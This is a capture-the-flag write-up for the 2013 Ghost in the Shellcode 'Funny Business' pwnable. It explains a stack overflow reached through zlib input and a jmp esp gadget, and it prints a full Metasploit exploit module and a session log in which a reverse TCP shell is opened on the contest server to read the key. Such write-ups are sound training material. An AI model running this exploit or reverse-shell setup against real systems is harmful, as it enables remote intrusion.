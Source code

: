 ```yaml
---
layout: post
title: "GitS 2013 - Funny Business"
date: 2013-02-17 13:53
comments: true
categories: [pwnable, rop]
author: stacks0n
---
```

## Challenge
Points: 100

Find the key! ([File](https://2013.ghostintheshellcode.com/funnybusiness-fb84813ddd932f6aceee0ed3a4e9f1e0a7082dc1) running at funnybusiness.2013.ghostintheshellcode.com)
## Analysis

In order to get the binary to run on 32-bit Linux, you first need to run:
```bash
$ adduser funnybusiness
$ sudo su
$ ./funnybiz.elf
```

Application is running on port 49681:
```bash
stacks0n@ubuntu:~/Desktop$ netstat -antp | grep LISTEN | grep funnybiz
tcp        0      0 0.0.0.0:49681           0.0.0.0:*               LISTEN      17495/funnybiz.elf   
```

Let's look at HexRays decompilation of sub_8048C60:
```
int __cdecl sub_8048D70(int sock_fd)
{
  int v1; // ebx@1
  char v3; // [sp+1Fh] [bp-Dh]@4

  *(_QWORD *)&strm.zalloc = 0LL;
  strm.opaque = 0;
  *(_QWORD *)&strm.next_in = 0LL;
  v1 = inflateInit_(&strm, "1.2.7", 56);
  if ( !v1 )
  {
    read_data_from_socket(sock_fd, &strm.avail_in, 4);
    if ( strm.avail_in <= 0x4000 )
    {
      read_data_from_socket(sock_fd, &v3, strm.avail_in);
      strm.next_in = (Bytef *)&v3;
      strm.avail_out = 16384;
      strm.next_out = (Bytef *)&unk_804B0A0;
      if ( inflate(&strm, 4) != 1 )
        exit(0);
      inflateEnd(&strm);
    }
  }
  return v1;
}

void read_data_from_socket(int fd, char * buffer, int size) {
idk, reads some shit off the wire
}
```

We first send the size of our zlib data, which must be less than 0x4000. The size we provide is then used for the number of bytes to be read off the wire next.

The second call to read_from_socket() is copying our data directly to the stack, without any bounds checking. In this case, there isn't even a buffer allocated for the data. 

The last requirement is that the data supplied must be valid compressed zlib data, otherwise the program will exit before returning from this function. So, we simply send the smallest possible zlib stream and append our payload. The zlib stream will contain a size so we don't have to worry about the appended data.

Find simple ROP gadget to redirect execution to the stack (since its executable) to avoid any issues with stack randomization.

```
stacks0n@stack0ns-MacBook-Pro:~> ./msfelfscan funnybiz.elf -j esp
[/Users/stacks0n/funnybiz.elf]
0x08049043 jmp esp
```

MSF module as follows:
```ruby
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
#   http://metasploit.com/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
        Rank = GreatRanking

        include Msf::Exploit::Remote::Tcp

        def initialize(info = {})
                super(update_info(info,
                        'Name'           => 'GitS 2013 Pwnable 100 - Funny Business',
                        'Author'         => 'stacks0n',
                        'License'        => MSF_LICENSE,
                        'Privileged'     => true,
                        'Platform'       => 'linux',
                        'DefaultTarget'  => 0))

                register_options(
                        [
                                Opt::RHOST('54.235.156.9'),
                                Opt::RPORT(49681)
                        ], self.class)

        end

        def exploit
                connect
                # we must send valid zlib data so the code doesn't exit
                # this is zlib deflation of a single 'a'
                zlib    = "\x78\x9C\x73\xE4\x02\x00\x00\x8E\x00\x4C"
                padding = "\x90\x90\x90"
                rop     = "\x43\x90\x04\x08" # jmp esp
                p       = zlib + padding + rop + payload.encoded

                # send the size of our payload
                sock.put([p.size].pack("L"))
                # send the payload
                sock.put(p)

                handler
                disconnect
        end

end
```

```bash
msf  exploit(funny_business) > show options

Module options (exploit/gits/funny_business):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  54.235.156.9     yes       The target address
   RPORT  49681            yes       The target port


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  68.47.237.170     yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf  exploit(funny_business) > exploit 

[-] Handler failed to bind to 68.47.237.170:4444
[*] Started reverse handler on 0.0.0.0:4444 
[*] Command shell session 1 opened (192.168.1.30:4444 -> 54.235.156.9:57768) at 2013-02-15 23:54:39 -0500

cat key
Compressions can be hard at times
```

## Solution
Compressions can be hard at times
